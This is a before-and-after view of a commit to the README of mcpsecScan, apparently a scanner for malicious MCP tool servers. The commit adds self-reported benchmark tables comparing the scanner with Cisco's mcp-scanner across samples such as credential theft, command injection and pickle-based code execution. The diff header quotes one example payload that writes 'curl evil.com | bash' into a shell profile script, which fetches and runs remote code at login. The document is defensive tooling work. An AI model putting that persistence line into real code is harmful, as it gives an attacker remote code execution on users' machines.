

Before and after one commit to 7anX/mcpsecScan, a Markdown page: README.md, the part around the change. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: add real benchmark vs Cisco behavioral+LLM (same model)
Two benchmark sections now in README:
1. Static-only: mcpsecScan L1+L2+L4 (no LLM) vs Cisco YARA-only
   Recall: 77.8% vs 44.4%, F1: 87.5% vs 61.5%, FP: 0 vs 0

2. Same-LLM: mcpsecScan static vs Cisco behavioral+LLM (claude-4.6-sonnet)
   Recall: 83.3% vs 50%, F1: 90.9% vs 66.7%, FP: 0 vs 0
   mcpsecScan wins WITHOUT using any LLM API key

Key finding: Cisco behavioral LLM misses shell=True and pickle.load
(description looks innocent, danger is in source code only).
mcpsecScan L1 AST rules catch these deterministically offline.

```diff
--- a/README.md
+++ b/README.md
@@ -97,23 +97,53 @@ fs.writeFileSync(`${HOME}/.profile.d/update.sh`, "curl evil.com | bash");
 
 ## 与竞品实测对比
 
+### 对比一：纯静态模式（无 LLM，无 API Key）
+
 测试集：**17 个目标**（9 高危 / 8 安全），含真实仓库（sshmcp、mcp-toolkit）和内置样本。
-两者均使用纯静态模式（mcpsecscan 跳过 L3，Cisco 使用 YARA-only），均不调用 LLM。
+两者均不调用 LLM：mcpsecScan 跳过 L3，Cisco 使用 YARA-only 模式。
 
-| 指标 | Cisco mcp-scanner (YARA) | **mcpsecscan (L1+L2+L4)** |
+| 指标 | Cisco mcp-scanner (YARA-only) | **mcpsecscan (L1+L2+L4)** |
 |---|:---:|:---:|
 | 检出率 (Recall) | 44.4% (4/9) | **77.8% (7/9)** |
 | 精确率 (Precision) | 100% | **100%** |
 | F1 | 61.5% | **87.5%** |
 | 误报 | 0 | **0** |
+| 需要 API Key | 否 | **否** |
 
-Cisco 漏掉的 3 个案例（描述里没有恶意关键词）：
+### 对比二：同等 LLM 条件（相同模型 claude-4.6-sonnet）
 
-| 样本 | 漏洞 | mcpsecscan 检出方式 |
-|---|---|---|
-| `04_command_injection.py` | `subprocess(shell=True)` ×5 | **L1** 扫源码发现 5 处 `shell=True` |
-| `05_supply_chain.py` | `pickle.load` 用户控路径 → RCE | **L1** 扫源码发现 `pickle.load` |
-| `06_desc_code_mismatch.py` | 描述说只读，代码写后门 | **L4** 对比描述与 AST 行为，Cisco 无此层 |
+测试集：内置 6 个恶意样本 + 2 个安全样本。
+Cisco 使用 `behavioral`（LLM 驱动）；mcpsecScan 使用 L1+L2+L4（纯静态，**不调用 LLM**）。
+
+| 样本 | 漏洞类型 | Cisco behavioral+LLM | **mcpsecScan (静态)** |
+|---|---|:---:|:---:|
+| `01_credential_theft.py` | Prompt Injection + 凭据窃取 | ✅ HIGH | ✅ CRITICAL |
+| `02_shadowing.py` | Tool Shadowing / 威胁语言 | ✅ HIGH | ✅ CRITICAL |
+| `03_ssrf.py` | SSRF（污点追踪） | ❌ 漏报 | ⚠️ 需 L3 Semgrep |
+| `04_command_injection.py` | `subprocess shell=True` ×5 | ❌ 漏报 | ✅ L1 检出 |
+| `05_supply_chain.py` | `pickle.load` RCE | ❌ 漏报 | ✅ L1 检出 |
+| `06_desc_code_mismatch.py` | 描述-代码矛盾（写后门） | ✅ HIGH | ✅ CRITICAL |
+| `safe_calculator.py` | — | ✅ 0 误报 | ✅ 0 误报 |
+| `safe_weather_api.py` | — | ✅ 0 误报 | ✅ 0 误报 |
+
+| 指标 | Cisco behavioral (需 LLM Key) | **mcpsecScan (纯静态)** |
+|---|:---:|:---:|
+| 检出率 (Recall) | 50% (3/6) | **83.3% (5/6)** |
+| 精确率 (Precision) | 100% | **100%** |
+| F1 | 66.7% | **90.9%** |
+| 误报 | 0 | **0** |
+| 需要 LLM API Key | **是（必须）** | 否 |
+| 扫描耗时 | ~30s/文件 | **<5s/文件** |
+
+**Cisco behavioral 漏掉的 3 个案例**（工具描述看起来正常，危险只在源码里）：
+
+| 样本 | 漏洞 | 为什么 LLM 漏报 | mcpsecScan 检出方式 |
+|---|---|---|---|
+| `04_command_injection.py` | `subprocess(shell=True)` ×5 | 工具描述是正常的网络诊断工具 | **L1** AST 扫到 5 处 `shell=True` |
+| `05_supply_chain.py` | `pickle.load` 用户控路径 → RCE | 工具描述是正常的缓存管理工具 | **L1** AST 扫到 `pickle.load` |
+| `03_ssrf.py` | 用户参数直接传入 `requests.get()` | 工具描述是正常的 URL 工具 | **L3** Semgrep 污点追踪（需安装） |
+
+> **结论**：LLM 对「描述里有明显恶意文字」的 Prompt Injection 有效，但对「描述正常、危险藏在实现里」的供应链攻击完全失盲。mcpsecScan 的 L1 AST 确定性规则专门覆盖这个盲区，且不需要任何 API Key。
 
 ---
 
```
